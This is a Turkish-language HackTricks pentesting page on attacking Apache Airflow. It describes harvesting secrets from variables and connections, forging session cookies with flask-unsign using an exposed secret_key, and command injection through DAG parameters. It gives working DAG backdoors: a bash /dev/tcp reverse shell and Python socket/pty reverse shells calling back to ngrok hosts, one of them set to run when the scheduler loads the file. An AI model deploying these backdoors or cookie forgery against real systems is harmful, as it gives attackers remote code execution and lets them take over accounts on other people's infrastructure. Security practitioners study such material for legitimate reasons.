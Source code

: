 # Apache Airflow Güvenliği

<details>

{% hint style="success" %}
AWS Hacking'ı öğrenin ve uygulayın:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking'ı öğrenin ve uygulayın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**Abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) katılın veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking püf noktalarını paylaşarak PR'ler göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>
{% endhint %}

## Temel Bilgiler

[**Apache Airflow**](https://airflow.apache.org), **veri boru hatları veya iş akışlarını düzenleme ve zamanlama** platformu olarak hizmet verir. Veri boru hatları bağlamında "düzenleme" terimi, çeşitli kaynaklardan gelen karmaşık veri iş akışlarını düzenleme, koordine etme ve yönetme sürecini ifade eder. Bu düzenlenmiş veri boru hatlarının temel amacı işlenmiş ve tüketilebilir veri kümelerini sunmaktır. Bu veri kümeleri, iş zekası araçları, veri bilimi ve makine öğrenme modelleri de dahil olmak üzere birçok uygulama tarafından yaygın bir şekilde kullanılmaktadır ve tüm bunlar büyük veri uygulamalarının işleyişinde temel rol oynamaktadır.

Temelde, Apache Airflow size **bir şey olduğunda** (olay, cron) **kodun yürütülmesini zamanlamayı** sağlayacaktır.

## Yerel Laboratuvar

### Docker-Compose

Tam bir apache airflow docker ortamını başlatmak için **docker-compose yapılandırma dosyasını** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) kullanabilirsiniz. (MacOS'ta iseniz, docker VM'ye en az 6GB RAM verdiğinizden emin olun).

### Minikube

Apache airflow'ı çalıştırmanın kolay bir yolu, **minikube ile çalıştırmaktır**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
## Airflow Yapılandırması

Airflow, yapılandırmasında **duyarlı bilgileri** saklayabilir veya zayıf yapılandırmalar bulabilirsiniz:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

## Airflow RBAC

Airflow'u saldırmadan önce **izinlerin nasıl çalıştığını** anlamanız gerekmektedir:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

## Saldırılar

### Web Konsolu Numaralandırma

Eğer **web konsoluna erişiminiz varsa**, aşağıdaki bilgilerin bazılarına veya tümüne erişebilirsiniz:

* **Değişkenler** (Özel duyarlı bilgiler burada saklanabilir)
* **Bağlantılar** (Özel duyarlı bilgiler burada saklanabilir)
* Onlara `http://<airflow>/connection/list/` adresinden erişin
* [**Yapılandırma**](./#airflow-configuration) (Gizli bilgiler, **`secret_key`** ve şifreler burada saklanabilir)
* Kullanıcıları ve rolleri listele
* **Her DAG'ın kodu** (ilginç bilgiler içerebilir)

### Değişken Değerlerini Almak

Değişkenler Airflow'da saklanabilir, böylece **DAG'lar** değerlerine **erişebilir**. Diğer platformların sırlarına benzer. Yeterli **izinlere** sahipseniz, bunlara GUI'de `http://<airflow>/variable/list/` adresinden erişebilirsiniz.\
Airflow varsayılan olarak değişkenin değerini GUI'de gösterecektir, ancak [**bu**](https://marclamberti.com/blog/variables-with-apache-airflow/) bağlantıya göre, GUI'de **değerinin** **yıldızlar** olarak görüneceği **değişkenlerin listesini** ayarlamak mümkündür.

![](<../../.gitbook/assets/image (164).png>)

Ancak, bu **değerler** hala **CLI** (DB erişimine ihtiyacınız var), **keyfi DAG** yürütme, **API**'ye değişkenler uç noktasına erişim (API etkinleştirilmelidir) ve **GUI**'den bile **alınabilir**.\
Bu değerlere GUI'den erişmek için sadece erişmek istediğiniz değişkenleri **seçin** ve **Eylemler -> Dışa Aktar**'a tıklayın.\
Başka bir yol, **gizli değeri** almak için **arama filtresini** kullanarak **kaba kuvvet** uygulamaktır:

![](<../../.gitbook/assets/image (152).png>)

### Yetki Yükseltme

Eğer **`expose_config`** yapılandırması **True** olarak ayarlanmışsa, **Kullanıcı** rolünden ve **yukarısından** olanlar **webdeki yapıyı okuyabilir**. Bu yapılandırmada, **`secret_key`** görünür, bu da demektir ki bu geçerli olan herhangi bir kullanıcı, **kendi imzalı çerezini oluşturarak başka herhangi bir kullanıcı hesabını taklit edebilir**.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
### DAG Arka Kapısı (Airflow işçisinde RCE)

Eğer **DAG'ların kaydedildiği yere** **yazma erişiminiz** varsa, sadece size bir **ters kabuk gönderecek bir tane oluşturabilirsiniz.**\
Bu ters kabuğun bir **airflow işçisi konteyneri içinde** yürütüleceğini unutmayın:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
### DAG Arka Kapısı (Airflow zamanlayıcısında Uzaktan Kod Çalıştırma)

Eğer bir şeyin **kodun kökünde çalıştırılacak şekilde ayarlanırsa**, bu yazının hazırlandığı sırada, bunun **DAG klasörüne yerleştirildikten birkaç saniye sonra zamanlayıcı tarafından çalıştırılacağı** unutulmamalıdır.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
### DAG Oluşturma

Eğer **DAG kümesi içinde bir makine ele geçirirseniz**, `dags/` klasöründe yeni **DAG betikleri** oluşturabilir ve bu betikler **DAG kümesi içindeki diğer makinelerde çoğaltılacaktır**.

### DAG Kod Enjeksiyonu

GUI'den bir DAG'ı çalıştırdığınızda ona **argümanlar geçirebilirsiniz**.\
Bu nedenle, DAG uygun şekilde kodlanmamışsa **Komut Enjeksiyonuna açık olabilir**.\
Bu, bu CVE'de meydana gelen şeydir: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

**DAG'larda komut enjeksiyonlarını aramaya başlamak için bilmeniz gereken tek şey**, **parametrelerin** kodla **`dag_run.conf.get("param_name")`** şeklinde **erişildiğidir**.

Ayrıca, aynı zafiyet **değişkenlerle** de meydana gelebilir (unutmayın ki yeterli izinlerle GUI'de **değişkenlerin değerini kontrol edebilirsiniz**). Değişkenlere **şu şekilde erişilir**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
Eğer örneğin bir bash komutu içinde kullanılıyorlarsa, bir komut enjeksiyonu gerçekleştirebilirsiniz.

<details>

{% hint style="success" %}
AWS Hacking'i öğrenin ve uygulayın:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve uygulayın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**Abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) katılın veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking püf noktalarını paylaşarak PR göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>
{% endhint %}
